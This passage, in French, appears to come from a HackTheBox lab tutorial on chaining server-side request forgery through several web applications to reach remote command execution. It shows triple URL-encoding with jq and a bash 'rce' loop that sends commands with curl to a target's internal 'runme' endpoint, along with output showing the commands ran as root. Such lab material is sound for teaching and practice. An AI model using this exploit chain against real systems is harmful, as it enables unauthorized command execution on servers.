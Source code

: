 Pour exécuter des commandes avec des arguments ou des caractères spéciaux, nous devons les encoder trois fois au fur et à mesure que nous les passons à travers trois applications Web différentes.

Pour ce faire, vous pouvez utiliser n'importe quel service d'encodage d'URL en ligne tel que [urlencoder.org](https://www.urlencoder.org/) . Un moyen rapide d'y parvenir depuis le terminal existe également. Il s'agit d'utiliser `jq`, qui prend en charge l'encodage comme suit :

#### Installer JQ

  Installer JQ

```
dsgsec@htb[/htb]$ sudo apt-get install jq
dsgsec@htb[/htb]$ echo "encode me" | jq -sRr @uri
encode%20me%0A

```

Nous pouvons maintenant créer une fonction bash pour automatiser l'exécution des commandes sur l'application cible.

#### Automatiser l'exécution des commandes

  Automatiser l'exécution des commandes

```
dsgsec@htb[/htb]$ function rce() {
function> while true; do
function while> echo -n "# "; read cmd
function while> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
function while> curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
function while> echo ""
function while> done
function> }

```

Maintenant, nous devons appeler la fonction et exécuter les commandes via :

  Automatiser l'exécution des commandes

```
dsgsec@htb[/htb]$ rce
# uname -a; hostname; whoami

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=uname%20-a%3B%20hostname%3B%20whoami
</h1><a>Linux a054d48cc0a4 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 GNU/Linux
a054d48cc0a4
root
 </a></body></html>
```
